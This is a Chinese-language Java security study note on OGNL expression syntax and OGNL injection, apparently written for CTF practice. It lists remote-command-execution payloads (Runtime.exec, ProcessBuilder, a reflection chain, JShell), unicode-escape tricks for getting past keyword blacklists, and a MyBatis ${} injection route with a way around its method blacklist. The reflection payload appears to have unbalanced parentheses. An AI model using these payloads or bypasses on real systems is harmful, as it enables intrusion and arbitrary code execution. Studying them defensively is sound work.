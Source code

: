```yaml
---
created: '22/03/11'
title: OGNL
tags:
  - java
  - java安全
---
```


# OGNL
## maven导入
```xml
<dependency>
	<groupId>ognl</groupId>
	<artifactId>ognl</artifactId>
	<version>3.1.19</version>
</dependency>
```

## 基本语法
### 对Root对象的访问
```java
User user = new User("test", 23);
System.out.println(Ognl.getValue("name", user));
```
### 对上下文对象的访问
```java
Map<String, Object> context = new HashMap<String, Object>();
context.put("init", "hello");
Ognl.getValue("#init", context, null);
```
### 对静态变量/静态方法的访问
```java
System.out.println(Ognl.getValue("@java.lang.Runtime@getRuntime()", null););
```
### 对方法的访问
```java
System.out.println(Ognl.getValue("@java.lang.Runtime@getRuntime().exec('calc.exe');", null););
```
### 对数组和集合的访问
```java
User user = new User();
Map<String, Object> context = new HashMap<String, Object>();
String[] strings  = {"aa", "bb"};
ArrayList<String> list = new ArrayList<String>();
list.add("aa");
list.add("bb");
Map<String, String> map = new HashMap<String, String>();
map.put("key1", "value1");
map.put("key2", "value2");
context.put("list", list);
context.put("strings", strings);
context.put("map", map);
System.out.println(Ognl.getValue("#strings[0]", context, user));
System.out.println(Ognl.getValue("#list[0]", context, user));
System.out.println(Ognl.getValue("#list[0 + 1]", context, user));
System.out.println(Ognl.getValue("#map['key1']", context, user));
System.out.println(Ognl.getValue("#map['key' + '2']", context, user));
```
### 创建对象
```java
System.out.println(Ognl.getValue("#{'key1':'value1'}", null));	
System.out.println(Ognl.getValue("{'key1','value1'}", null));
System.out.println(Ognl.getValue("new sample.ognl.User()", null));
```
### 表达式支持
```
2 + 4 // 整数相加（同时也支持减法、乘法、除法、取余 [% /mod]、）
"hell" + "lo" // 字符串相加
i++ // 递增、递减
i == j // 判断
var in list // 是否在容器当中
```

## OGNL注入
由于OGNL的强大与方便性，我们很容易构造一些命令执行的payload:
```
//使用runtime执行系统命令
@java.lang.Runtime@getRuntime().exec("calc")


//使用processbuilder执行系统命令
(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()

//使用反射调用runtime执行系统命令
${(#runtimeclass=#this.getClass().forName("java.lang.Runtime")).(#getruntimemethod=#runtimeclass.getDeclaredMethods([7]).(#rtobj=#getruntimemethod.invoke(null,null)).(#execmethod=#runtimeclass.getDeclaredMethods([14]).(#execmethod.invoke(#rtobj,"cmd"))}

//使用Jshell执行java代码(jdk9及以后)
@jdk.jshell.Jshell@create().eval('code');
```

### 关键字绕过
假如题目中对用户的输入进行了关键字的黑名单(以new为例)，那么实际上我们可以使用unicode字符进行绕过:
```java
String str = "(\u006eew java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()";
Ognl.getValue(str, null);
```
那么假如存在一个正则表达式`\\u\d{4}`，将对应的unicode先解析了一遍，再进行黑名单，还有方法绕过吗？实际上这里又存在一个trick，即`\uxxxx`中的u是可以写一个或多个的，具体原因在于`ognl.JavaCharStream#readChar`方法中:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220311111220.png)
所以上述OGNL表达式可以改写为:
```java
String str = "(\uuuuuuuuuuuuuuuu006eew java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()";
Ognl.getValue(str, null);
```


### OGNL与mybatis
***基于mybatis3.5.9，不同版本的mybatis可能存在差异***

mybatis中实际上是支持OGNL表达式的，这样假如mybatis存在sql注入(即输入直接拼接)的情况，那么实际上也存在OGNL注入，可以实现RCE

MyBatis中可以使用OGNL的地方有两处：
- 动态SQL表达式中
- ${param}参数中

举一个简单的例子:
```java
package com.example.ezsqltest.dao;

import org.apache.ibatis.annotations.Param;
import org.apache.ibatis.jdbc.SQL;

public class UserProvider {
    public UserProvider() {
    }

    public String getVoteById(@Param("vid") final String vid) {
        String s = (new SQL() {
            {
                this.SELECT("*");
                this.FROM("users");
                this.WHERE("id = " + vid);
            }
        }).toString();
        return s;
    }
}
```
这里的vid是用户的输入，没有经过任何的过滤直接拼接进sql查询中，所以我们这里可以输入`${1}`来使用OGNL表达式。

所以这里是存在OGNL注入的，但是假如我们尝试使用`${@java.lang.Runtime@getRuntime().exec("calc")}`这个payload进行注入时，会发现命令并没有被成功执行，这是为什么呢？

答案藏在`org.apache.ibatis.ognl.OgnlRuntime#invokeMethod`方法中，这里存在着一个黑名单机制:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220311105937.png)
当_useStricterInvocation为true时，黑名单中的类(或继承自黑名单中的类)将不能调用方法，而_useStricterInvocation这个值默认是为true。

所以这时候我们就需要一些绕过方法进行绕过了，上面也提到了这些payload:
```java
//使用反射调用runtime执行系统命令
${(#runtimeclass=#this.getClass().forName("java.lang.Runtime")).(#getruntimemethod=#runtimeclass.getDeclaredMethods([7]).(#rtobj=#getruntimemethod.invoke(null,null)).(#execmethod=#runtimeclass.getDeclaredMethods([14]).(#execmethod.invoke(#rtobj,"cmd"))}

//使用Jshell执行java代码(jdk9及以后)
@jdk.jshell.Jshell@create().eval('code');
```



### OGNL与struts 2
后补



## 参考文章
- https://jueee.github.io/2020/08/2020-08-15-Ognl%E8%A1%A8%E8%BE%BE%E5%BC%8F%E7%9A%84%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8%E6%96%B9%E6%B3%95/
- https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/
- https://paper.seebug.org/794/
- https://blog.csdn.net/isea533/article/details/50061705